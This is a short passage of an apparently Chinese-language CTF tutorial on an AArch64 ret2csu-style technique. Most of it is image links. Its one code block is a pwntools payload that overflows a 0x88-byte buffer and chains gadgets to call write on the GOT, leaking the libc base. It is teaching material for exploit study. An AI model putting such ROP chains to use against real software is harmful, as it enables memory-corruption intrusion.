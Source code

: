 ### 例题bpc\_csu

[![](assets/1700442742-41ca36490ea638c0c98f033a8f2ed7f4.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231117183640-3133166c-8535-1.png)

‍

[![](assets/1700442742-7d1e24f7fe1e29990863bb47d01f147e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231117183644-33974fc2-8535-1.png)

[![](assets/1700442742-e9e4a138759fe9d3ec144d7669f31504.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231117183647-35c56a7c-8535-1.png)

‍

开始布置`write(1,write@got.plt,0x8)`​，来获取libc基址

```plain
pl = b'a'*0x88 + p64(g1) #x29  x30
pl+= p64(main) + p64(0x100000000) #其实这里写什么都无所谓，主要是起个抬栈作用
pl+= p64(0) + p64(g2) #x29   x30
pl+= p64(0) + p64(1) #x19 --0   x20 --1
pl+= p64(elf.got['write']) + p64(1) ##x21 --addr  x22 --x0
pl+= p64(elf.got['write']) + p64(0x8) #x23 --x1  x24 --x2
pl+= p64(0) +p64(main) #x29   x30
```

[![](assets/1700442742-7ffef76da3831a77c2e3fe7a5a7aeae2.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231117183657-3b89a9b4-8535-1.png)

[![](assets/1700442742-f322a40325d883f3eb8c1a639c45f436.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231117183701-3df90ec4-8535-1.png)
